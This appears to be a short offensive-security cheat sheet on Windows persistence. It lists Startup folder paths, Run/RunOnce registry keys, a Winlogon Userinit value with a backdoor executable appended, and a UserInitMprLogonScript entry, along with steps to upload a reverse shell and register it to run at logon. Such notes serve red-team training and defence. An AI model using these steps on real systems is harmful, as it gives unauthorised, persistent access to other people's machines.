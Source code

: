 # Triggered Persistence

## Startup folder
Any payload placed into the following directory will be run whenever a user logs in.

```sh
c:\users\<username>\appdata\roaming\microsoft\windows\start menu\programs\startup
```

For all users:
```sh
c:\programdata\microsoft\windows\start menu\programs\startup
```

## Registry
Force a user to execute the program on log in via the registry

Current User:
```sh
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
Everyone:
```sh
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

1. Upload a reverse shell to `C:\Windows`
2. Create `REG_EXPAND_SZ` registry entry under `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
[Registry](Images/persistence-registry.png)

## WinLogon
This is the component that loads your user profile right after authentication.

Keys:
```sh
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
```
Executables:

`Userinit` - restoring profile preferences
`shell` - system shell (explorer.exe)

We do not want to break the logon sequence so ensure to append the backdoor.
```sh
Userinit    REG_SZ  C:\windows\system32\userinit.exe, C:\shell.exe
```

## Logon Scripts
The `userinit.exe` process that is responsible for loading your user profile uses a variable called `UserInitMprLogonScript`. We can store a custom log in script here.

1. Create the environment variable under `Computer\HKEY_CURRENT_USER\Environment`
```sh
UserinitMprLogonScript      REG_EXPAND_SZ       C:\Windows\shell.exe
```



